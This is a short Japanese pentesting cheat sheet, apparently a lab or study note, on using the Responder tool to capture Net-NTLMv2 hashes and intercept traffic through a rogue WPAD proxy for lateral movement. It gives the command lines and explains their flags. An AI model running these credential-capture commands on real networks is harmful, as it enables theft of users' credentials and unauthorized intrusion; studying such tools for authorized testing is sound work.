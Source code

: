 # Responder
ローカルの管理者権限(SYSTEM権限)を取得できておらずMimikatzを使えない状態で、Net-NTLMv2を取得して横展開するときなどに使える。  
Net-NTLMv2はSMBにアクセスするときにハッシュを送信するため、ネットワークのパケットをキャプチャするとハッシュを取得できる。  
  
responderがキャプチャした情報は画面に出力される。また、/usr/share/responder/logsディレクトリにあるホストごとのログファイルにも結果を書き込む。  
  
一般的な攻撃シナリオでは、内部に侵入したらホスト上でresponderを走らせておいて、その間に他のenumerationを進めておくものらしい。

## コマンド集

1. Net-NTLMv2ハッシュを取得するため、SMBを立ち上げてパケットをキャプチャする
```
sudo responder -I tun0
```  
クライアント側からは、//192.168.205.4/hoge.phpのようにして指定できる。ターゲットがWindowsマシンならNTLM取得もできる。


2. 
-wf => WPAD不正プロキシサーバを使う。一般的に毎回使用されるフラグらしい。  
-f => リモートホストのOSとversion情報のフィンガープリントを試行する。  
-v => verbose  
-w => 組み込みのWPADプロキシサーバを利用する。Internet Explorerを起動するすべてのユーザによるすべてのHTTPリクエストを補足するらしく、大規模環境で非常に有用。
```
sudo responder -wf -I tun0
```